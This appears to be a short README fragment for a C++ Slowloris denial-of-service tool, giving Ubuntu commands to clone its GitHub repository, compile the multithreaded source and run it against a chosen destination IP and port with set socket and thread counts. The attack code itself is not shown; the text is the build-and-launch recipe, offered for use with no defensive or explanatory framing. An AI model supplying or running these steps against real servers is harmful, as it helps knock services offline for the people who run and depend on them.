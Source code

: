For ubuntu

git clone https://github.com/vsouda/SlowLorisDDoSAttackCPP.git
$ cd SlowLorisDDoSAttackCPP
$ g++ slowlorisattackmultithread.cpp -std=c++0x -pthread -o out
$ ./out <dest_ip> <dest_port_num> <num_sockets> <num_threads>
